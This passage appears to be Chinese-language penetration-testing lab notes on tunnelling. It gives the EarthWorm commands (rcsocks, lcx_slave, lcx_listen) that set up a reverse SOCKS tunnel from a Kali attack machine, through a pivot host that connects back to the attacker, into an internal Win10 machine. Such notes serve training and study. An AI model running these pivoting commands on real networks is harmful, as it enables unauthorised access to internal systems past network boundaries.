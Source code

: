 ![image-20230804224454505](img/隧道技术/image-20230804224454505.png)

目标通过kali可以直接访问到win10的内容，也就是看到192.168.15.234。

首先在kali，攻击机执行命令。

```
./ew_for_linux64 -s rcsocks -l 1080 -e 6004 -t 1000000
```

然后在中转机192.168.101.83（192.168.12.131）中执行命令

```
ew_for_win_32.exe -s lcx_slave -d 192.168.101.82 -e 6004 -f 127.0.0.1 -g 6005 -t 100000
```

再执行第二条命令，监听6005端口收到的来自6007的信息

```
ew_for_win_32.exe -s lcx_listen -l 6005 -e 6007 -t 1000000
```

![image-20230804225148936](img/隧道技术/image-20230804225148936.png)
